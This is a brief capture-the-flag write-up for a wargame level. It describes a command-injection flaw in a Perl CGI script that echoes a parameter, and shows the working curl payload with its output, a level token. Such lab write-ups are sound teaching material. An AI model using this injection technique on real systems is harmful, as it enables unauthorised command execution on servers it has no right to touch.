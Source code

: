 # level04

in this level we were provided with a perl cgi script that prints the parameter given using echo which can be exploited using command injection 

```
curl 'http://10.13.100.44:4747?x=hello$(getflag)'

helloCheck flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

and voila ! the password to the next level
